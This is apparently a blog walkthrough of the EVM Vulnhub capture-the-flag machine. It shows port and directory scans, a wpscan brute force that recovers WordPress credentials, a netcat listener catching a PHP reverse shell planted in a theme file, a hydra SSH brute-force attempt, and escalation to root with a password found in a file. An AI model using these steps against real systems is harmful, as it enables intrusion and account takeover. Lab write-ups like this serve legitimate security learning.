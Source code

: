 ```yaml
---
title: "EVM Vulnhub CTF Walkthrough"
description: "EVM Vulnhub CTF Walkthrough"
---
```

Another CTF walkthrough. 

nmap 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/EVM]
└─$ nmap -p- -sV 192.168.56.103 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 05:02 EDT
Nmap scan report for 192.168.56.103
Host is up (0.0016s latency).
Not shown: 65528 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
53/tcp  open  domain      ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE; OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

gobuster
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.56.103 
/wordpress            (Status: 301) [Size: 320] [--> http://192.168.56.103/wordpress/
{% endhighlight %}

wpscan
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://192.168.56.103/wordpress -U c0rrupt3d_brain -P /usr/share/wordlists/rockyou.txt
[!] Valid Combinations Found:
 | Username: c0rrupt3d_brain, Password: 24992499
{% endhighlight %}

Logging into the WordPress installation, injecting php reverse shell into the header.php file in the "Edit Theme" section. 

Set up the listener and getting a shell
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ nc -lp 6666               
Linux ubuntu-extermely-vulnerable-m4ch1ine 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:46:13 up 15 min,  0 users,  load average: 0.12, 1.22, 1.60
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}


Spawning an interactive shell: 
{% highlight terminal %}
$ python -c 'import pty; pty.spawn("/bin/bash");'
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/$ 
{% endhighlight %}

user root3r identified. Let's try to brute force our way into the ssh service. 
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ hydra -l root3r -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.103 -V
{% endhighlight %}
No luck there. 


root3r home directory
{% highlight terminal %}
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ ls -asl
ls -asl
total 40
4 drwxr-xr-x 3 www-data www-data 4096 Nov  1  2019 .
4 drwxr-xr-x 3 root     root     4096 Oct 30  2019 ..
4 -rw-r--r-- 1 www-data www-data  515 Oct 30  2019 .bash_history
4 -rw-r--r-- 1 www-data www-data  220 Oct 30  2019 .bash_logout
4 -rw-r--r-- 1 www-data www-data 3771 Oct 30  2019 .bashrc
4 drwxr-xr-x 2 www-data www-data 4096 Oct 30  2019 .cache
4 -rw-r--r-- 1 www-data www-data   22 Oct 30  2019 .mysql_history
4 -rw-r--r-- 1 www-data www-data  655 Oct 30  2019 .profile
4 -rw-r--r-- 1 www-data www-data    8 Oct 31  2019 .root_password_ssh.txt
0 -rw-r--r-- 1 www-data www-data    0 Oct 30  2019 .sudo_as_admin_successful
4 -rw-r--r-- 1 root     root        4 Nov  1  2019 test.txt
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$
{% endhighlight %}

.root_password_ssh.txt gives us a password. That pasword didn't work when logging
in as root over SSH. 

Getting root shell:
{% highlight terminal %}
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ su root
su root
Password: willy26
root@ubuntu-extermely-vulnerable-m4ch1ine:~# ls -a
ls -a
.   .bash_history  .cache          .nano     proof.txt
..  .bashrc        .mysql_history  .profile
root@ubuntu-extermely-vulnerable-m4ch1ine:~# cat proof.txt
cat proof.txt
voila you have successfully pwned me :) !!!
:D
{% endhighlight %}
